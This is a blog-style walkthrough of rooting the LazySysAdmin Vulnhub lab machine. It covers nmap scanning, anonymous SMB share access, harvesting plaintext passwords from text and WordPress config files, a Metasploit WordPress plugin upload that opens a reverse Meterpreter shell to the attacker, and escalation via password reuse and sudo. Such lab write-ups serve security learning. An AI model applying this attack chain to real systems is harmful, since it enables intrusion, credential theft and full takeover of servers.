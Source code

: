 ```yaml
---
date: 2020-04-27 03:43:30
layout: post
title: "LazySysAdmin Vulnhub Walkthrough"
subtitle:
description: Today we will be doing LazySysAdmin from Vulnhub. An easy boot2root machine configured by a lazy system administrator.
image: /assets/img/uploads/lazySysAdmin/lazy.jpg
optimized_image: /assets/img/uploads/lazySysAdmin/lazy.jpg
category: walkthrough
tags: vulnhub boot2root
author:
paginate: false
---
```


Today we will be doing LazySysAdmin from Vulnhub. An easy boot2root machine created by 'Togie Mcdogie'. The machine truly stands up to its name. This machine was configured by a lazy system administrator and thus, one clear thing to be looking for is a misconfigured system. Lets dive in!

We begin our reconnaissance by running a port scan with Nmap, checking default scripts.

```r
m1m3@kali:~$ nmap -sV -sV -oA nmap/lazySysAdmin 192.168.1.9 

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 192.168.1.9
Host is up (0.0044s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.93 seconds
```

We see a mysql port open and Samba smd running on port 139 and 445. We also have a webserver running at port 80.

<center><br>
<img src="/assets/img/uploads/lazySysAdmin/port80.png">
</center>

Let's try gaining access to the samba and see if we can login anonymously. We will use <i>smbclient</i> for this. If it asks for any password, just leave it empty and press enter.

```r
m1m3@kali:~$ smbclient -L 192.168.1.9

Enter WORKGROUP\m1m3's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        share$          Disk      Sumshare
        IPC$            IPC       IPC Service (Web server)
SMB1 disabled -- no workgroup available
```

We can access the share$ folder using: 

```r
m1m3@kali:~$ smbclient  '\\192.168.1.9\share$'

Enter WORKGROUP\m1m3's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Aug 15 16:35:52 2017
  ..                                  D        0  Mon Aug 14 18:04:47 2017
  wordpress                           D        0  Thu Apr 30 00:15:04 2020
  Backnode_files                      D        0  Mon Aug 14 17:38:26 2017
  wp                                  D        0  Tue Aug 15 16:21:23 2017
  deets.txt                           N      139  Mon Aug 14 17:50:05 2017
  robots.txt                          N       92  Mon Aug 14 18:06:14 2017
  todolist.txt                        N       79  Mon Aug 14 18:09:56 2017
  apache                              D        0  Mon Aug 14 18:05:19 2017
  index.html                          N    36072  Sun Aug  6 10:32:15 2017
  info.php                            N       20  Tue Aug 15 16:25:19 2017
  test                                D        0  Mon Aug 14 18:05:10 2017
  old                                 D        0  Mon Aug 14 18:05:13 2017

                3029776 blocks of size 1024. 1459952 blocks available          
smb: \> 
```

We see some interesting test files here, let's download them and see if they have anything useful.

```r
smb: \> get deets.txt
getting file \deets.txt of size 139 as deets.txt (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \> get todolist.txt
getting file \todolist.txt of size 79 as todolist.txt (12.9 KiloBytes/sec) (average 1.5 KiloBytes/sec)
smb: \> ^C

m1m3@kali:~$ cat deets.txt 
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345

m1m3@kali:~$ cat todolist.txt 
Prevent users from being able to view to web root using the local file browser
m1m3@kali:~$ 
[1] 0:bash*                                                                                               
```

Awesome! <i>deets.txt</i> reveals a password 12345. Another thing now we can look at is the wordpress directory.

```r
smb: \> cd wordpress
smb: \wordpress\> ls
  .                                   D        0  Thu Apr 25 00:15:04 2020
  ..                                  D        0  Tue Aug 15 16:35:52 2017
  wp-config-sample.php                N     2853  Wed Dec 16 15:28:26 2015
  wp-trackback.php                    N     4513  Sat Oct 15 01:09:28 2016
  wp-admin                            D        0  Thu Aug  3 02:32:02 2017
  wp-settings.php                     N    16200  Thu Apr  6 23:31:42 2017
  wp-blog-header.php                  N      364  Sat Dec 19 16:50:28 2015
  index.php                           N      418  Wed Sep 25 05:48:11 2013
  wp-cron.php                         N     3286  Sun May 24 22:56:25 2015
  wp-links-opml.php                   N     2422  Mon Nov 21 08:16:30 2016
  readme.html                         N     7413  Mon Dec 12 13:31:39 2016
  wp-signup.php                       N    29924  Tue Jan 24 16:38:42 2017
  wp-content                          D        0  Thu Apr 30 00:31:17 2020
  license.txt                         N    19935  Mon Jan  2 23:28:42 2017
  wp-mail.php                         N     8048  Wed Jan 11 10:43:43 2017
  wp-activate.php                     N     5447  Wed Sep 28 03:06:28 2016
  .htaccess                           H       35  Tue Aug 15 17:10:13 2017
  xmlrpc.php                          N     3065  Wed Aug 31 22:01:29 2016
  wp-login.php                        N    34327  Fri May 12 22:42:46 2017
  wp-load.php                         N     3301  Tue Oct 25 08:45:30 2016
  wp-comments-post.php                N     1627  Mon Aug 29 17:30:32 2016
  wp-config.php                       N     3703  Mon Aug 21 14:55:14 2017
  wp-includes                         D        0  Thu Aug  3 02:32:03 2017

                3029776 blocks of size 1024. 1459952 blocks available          
smb: \wordpress\> 
```
 Looking into the wp-config, we get some username and password.

```r
 /** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');
```

We can use these to login into the wp-admin

<center><br>
<img src="/assets/img/uploads/lazySysAdmin/wordpress.png">
</center>

Now that we are successfully logged in, we can upload a payload packaged as a WordPress plugin. We can use metasploit here to exploit the server.

```r
msf5 > use exploit/unix/webapp/wp_admin_shell_upload 
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 192.168.1.9
RHOSTS => 192.168.1.9
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD TogieMYSQL12345^^
PASSWORD => TogieMYSQL12345^^
msf5 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.12:4444 
[*] Authenticating with WordPress using admin:TogieMYSQL12345^^...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/nqVodSMHuP/rimGsZTjkk.php...
[*] Sending stage (38288 bytes) to 192.168.1.9
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.1.9:45938)
[+] Deleted rimGsZTjkk.php
[+] Deleted nqVodSMHuP.php
[+] Deleted ../nqVodSMHuP

meterpreter > shell
Process 1697 created.
Channel 0 created.
id       
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@LazySysAdmin:$
```

Looking into the /etc/passwd, we can see a user named  <i>togie</i>

```r
www-data@LazySysAdmin:$ cat /etc/passwd
cat /etc/passwd

togie:x:1000:1000:togie,,,:/home/togie:/bin/rbash

www-data@LazySysAdmin:$ 
```

This will be our way In!  We can now ssh into the user or simply use <i>su</i> to login with the password we got from <i>deets.txt.</i> 

```r
www-data@LazySysAdmin:$ su togie
su togie
Password: 12345
togie@LazySysAdmin:$ id
id
uid=1000(togie) gid=1000(togie) groups=1000(togie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)
togie@LazySysAdmin:$ 
```

We can see that the user is added in the <i>sudoers</i> group. Therefore we can directly run <i>sudo su </i> to get the root shell.

```r
togie@LazySysAdmin:$ sudo su
sudo su
[sudo] password for togie: 12345

root@LazySysAdmin:.# 
```

That's it! We rooted the box. Now we can read our flag.

```r
root@LazySysAdmin:.# cat /root/proof.txt/
cat /root/proof.txt
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851


Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie




Enjoy some random strings

WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu

root@LazySysAdmin:.# 
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/Jothon">Joshua Anderson.</a>